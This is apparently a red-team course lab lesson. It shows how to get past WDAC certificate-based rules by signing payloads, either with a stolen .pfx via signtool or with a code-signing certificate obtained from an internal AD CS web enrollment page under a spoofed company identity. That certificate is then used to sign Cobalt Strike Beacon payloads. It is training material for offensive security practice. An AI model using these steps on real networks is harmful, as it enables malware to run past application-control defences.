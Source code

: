 Some organisations build and maintain their own custom [LOB](https://en.wikipedia.org/wiki/Line_of_business) applications which may be signed using an internal certificate authority, such as Active Directory Certificate Services.  Those CAs can be trusted by their WDAC policy, to allow them to sign and deploy their own trusted apps.

WDAC has two levels of certificate policy (three if you count **Root**, but that's currently unsupported).  The first is **Leaf** and the second is **PCA** (short for Private Certificate Authority).  Leaf adds trusted signers at the individual signing certificate level and PCA adds the highest available certificate in the chain (typically one certificate below the root certificate).

Leaf provides more granular control, as every single code-signing certificate issued would have to be trusted individually, but would obviously require more management overhead.  PCA is less robust but easier to manage, because any code-signing certificate issued by a CA can be trusted by WDAC in just a single rule.

  

`SignedApp.exe` on **Workstation 3** is signed using the "SignedApp" certificate, issued by the `redteamops2.local` CA.

  

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/wdac/signed-app.png)

  

A LeafCertificate rule would look like this:

```xml
<Signers>
  <Signer ID="ID_SIGNER_S_1" Name="SignedApp">
    <CertRoot Type="TBS" Value="368FEB688B0C60E99D410D4F70B4C952B2741D263C408AE2FBB84C56C15525B5" />
  </Signer>
</Signers>
```

  

A PcaCertificate rule like this:

```xml
<Signers>
  <Signer ID="ID_SIGNER_S_1" Name="Red Team Ops 2 Sub CA">
    <CertRoot Type="TBS" Value="0118C2C3108850353E71D0253A730747A266FDC0AA433A3FF5E087D10C199A73" />
  </Signer>
</Signers>
```

  

If you can find an exported private key (.pfx) and associated password, you can simply use `signtool.exe` from the Windows SDK to sign any binary with it.

```powershell
signtool.exe sign /f SignedAppCert.pfx /p password /fd SHA256 EvilApp.exe
```

  

Another possibility is to have the CA sign your own certificate signing request.  Cobalt Strike can use such a certificate to automatically generated signed payloads.  This can be especially easy to achieve when the Web Enrollment role is installed.

  

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/wdac/web-enrollment.png)

  

First, create a Java KeyStore and complete the information fields.  You can enter anything you want, but when we generate a CSR from this keystore, it will be populated with this information and will ultimately appear in the CA.  We should therefore take some care to make the information look somewhat realistic for the target.

```shell
ubuntu@teamserver ~> keytool -genkey -alias server -keyalg RSA -keysize 2048 -keystore keystore.jks
Enter keystore password:
Re-enter new password:
What is your first and last name?
  [Unknown]:  HelpSystems LLC
What is the name of your organizational unit?
  [Unknown]:  Hacker Squad
What is the name of your organization?
  [Unknown]:  HelpSystems LLC
What is the name of your City or Locality?
  [Unknown]:  Eden Prairie
What is the name of your State or Province?
  [Unknown]:  MN
What is the two-letter country code for this unit?
  [Unknown]:  US
Is CN=HelpSystems LLC, OU=Hacker Squad, O=HelpSystems LLC, L=Eden Prairie, ST=MN, C=US correct?
  [no]:  yes
```

  

Next, generate the code signing request.

```bash
ubuntu@teamserver ~> keytool -certreq -alias server -file req.csr -keystore keystore.jks
Enter keystore password:

ubuntu@teamserver ~> cat req.csr
-----BEGIN NEW CERTIFICATE REQUEST-----
MIIC8TCCAdkCAQAwfDELMAkGA1UEBhMCVVMxCzAJBgNVBAgTAk1OMRUwEwYDVQQH
EwxFZGVuIFByYWlyaWUxGDAWBgNVBAoTD0hlbHBTeXN0ZW1zIExMQzEVMBMGA1UE
CxMMSGFja2VyIFNxdWFkMRgwFgYDVQQDEw9IZWxwU3lzdGVtcyBMTEMwggEiMA0G
CSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQCJuDtP/bn4y9Ha6J+Cp/ywjGxtvVET
K1do5eflb3gBxSQIqjZ5cxKZyCsiyCG3ALkbcxXsDRFQBElQWTu5ijyRhaLHOmvd
2CH6Bj+VmSqjuYHgBoIfzM5QKYs+uAdAGzveFwVyrjfL+4fj5TEu5XnnLp4d+L5n
vthpM4ABaaVPk82mlkWpDqlxp2LNp33ZPi9yUiMAkGSoBtWUEl9zXXl3G7jz+Tmd
KVxcqRpwVpJ1ibMZ/w9GcWDxTpPjlNIEDwLRFaJyPTXcoa84Xmm4ow7CHWJpOn7R
kXyR8wB4BTY5m+Tl7cFN8CqCNnCWumnYpls2ol3k771hS4ZB6yK6VIq5AgMBAAGg
MDAuBgkqhkiG9w0BCQ4xITAfMB0GA1UdDgQWBBSo06E0GI83Cdb9aBy68TGozbDV
6zANBgkqhkiG9w0BAQsFAAOCAQEAVLZXnnAgnErJ2NUQC2YFzVVyKXI4sRipxXX9
ZzVMOtm3+Z85Cf4/N2Zn7lgaOnkj+70dHSUxTzj+aj083dewGIWoqCgikbkPgNYs
dNslS4dhXqHM68anYUsRTiNqJ5QAYujmRwxWIVO/6WX6nRDA2ZnNS9cMz1Nt3+zZ
YPf5vJp3EmBU2fi3Eg3VHT/LAVoA441Yqfywg99JT3oB7ERw1BvLJ1VTSPBNbKcE
sToMLXbgJ3HMBZzAiwZaDpUT+KJ7oV4z/H+HFMThASPVy+tTBEONiqwuNIflvxcO
ILYhBwhe7NaYsTvruS3wAogSH9sSg2yVesJ786eKTR5B4eyOfw==
-----END NEW CERTIFICATE REQUEST-----
```
  

On [http://ca.redteamops2.local/certsrv,](http://ca.redteamops2.local/certsrv,) go to **Request a certificate** > **advanced certificate request**.  Paste the CSR into the request box and select **Red Team Ops 2 Code Signing** from the certificate template dropdown.  Then click **Submit**.

  

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/wdac/cert-req.png)

  

You'll be redirected to the Certificate Issued page where you can download the certificate.  Select **Download certificate chain** and your browser will download **certnew.p7b**.

  

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/wdac/cert-issued.png)

  

Transfer this file onto your team server VM and import it into the keystore.

```bash
ubuntu@teamserver ~> keytool -import -trustcacerts -alias server -file certnew.p7b -keystore keystore.jks
Enter keystore password:

Top-level certificate in reply:

Owner: CN=Red Team Ops 2 Root CA, DC=redteamops2, DC=local
Issuer: CN=Red Team Ops 2 Root CA, DC=redteamops2, DC=local
Serial number: 421987c30cad5faa4854f955aca0717b
Valid from: Thu Feb 03 13:50:33 UTC 2022 until: Sun Feb 03 14:00:33 UTC 2047
Certificate fingerprints:
         SHA1: 88:F6:3E:1F:68:88:DD:C7:5C:C0:DC:C2:F4:F0:2B:C8:31:6C:B1:3E
         SHA256: 8C:21:38:A0:5E:B9:F8:1B:DF:DB:37:49:87:73:50:97:F2:C8:E5:9B:FC:31:70:55:93:4E:AC:37:DC:56:15:70
Signature algorithm name: SHA256withRSA
Subject Public Key Algorithm: 2048-bit RSA key
Version: 3

[...snip...]

... is not trusted. Install reply anyway? [no]:  yes
Certificate reply was installed in keystore
```

  

Copy `keystore.jks` into the cobaltstrike directory and then add the following code block to your Malleable C2 profile:

```shell
code-signer {
        set keystore "keystore.jks";
        set password "password";
        set alias "server";
}
```

  

Restart the team server and go to generate a new EXE payload.  You'll see the **sign executable file** checkbox can now be enabled.

  

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/wdac/sign-payload-dialogue.png)

  

Copy the new payload across to **WKSTN-3** and it will execute.

  

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/wdac/beacon-signed.exe.png)

  

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/wdac/beacons.png)